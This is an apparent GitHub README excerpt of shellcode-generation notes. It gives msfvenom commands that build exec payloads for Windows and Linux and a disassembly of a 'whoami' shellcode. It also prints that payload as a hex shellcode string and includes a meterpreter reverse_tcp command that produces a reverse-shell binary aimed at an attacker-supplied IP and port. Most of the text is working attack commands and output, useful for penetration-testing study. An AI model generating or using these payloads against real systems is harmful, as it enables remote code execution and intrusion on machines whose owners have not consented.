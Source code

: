 `$ msfvenom -p windows/x64/exec cmd=cmd.exe -b "\x00\x0a\0xd" -f c > payload-x64.c`

`$ msfvenom -p linux/x64/exec cmd=/bin/bash -b "\x00\x0a\x0d" -f c > payload-x64.c`

### 2.2 - Assembler Code

```
$ msfvenom -p linux/x86/exec cmd=whoami R | ndisasm -u -
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

00000000  6A0B              push byte +0xb
00000002  58                pop eax
00000003  99                cdq
00000004  52                push edx
00000005  66682D63          push word 0x632d
00000009  89E7              mov edi,esp
0000000B  682F736800        push dword 0x68732f
00000010  682F62696E        push dword 0x6e69622f
00000015  89E3              mov ebx,esp
00000017  52                push edx
00000018  E807000000        call 0x24
0000001D  7768              ja 0x87
0000001F  6F                outsd
00000020  61                popa
00000021  6D                insd
00000022  6900575389E1      imul eax,[eax],dword 0xe1895357
00000028  CD80              int 0x80
```

### 2.3 - Shellcode Format

- **Pipe it through hexdump**

```
$ msfvenom -p linux/x86/exec cmd=whoami R | hexdump -v -e '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 42 bytes

\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x07\x00\x00\x00\x77\x68\x6f\x61\x6d\x69\x00\x57\x53\x89\xe1\xcd\x80
```

- **Any raw shellcode binary even if it's not related to metasploit using via generic/custom payload**

`$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f raw > payload-x86.bin`

`$ msfvenom -p generic/custom payloadfile=./payload-x86.bin -a x86 --platform windows -f c -o sc.c`

- You can also use a calculator program as a shellcode
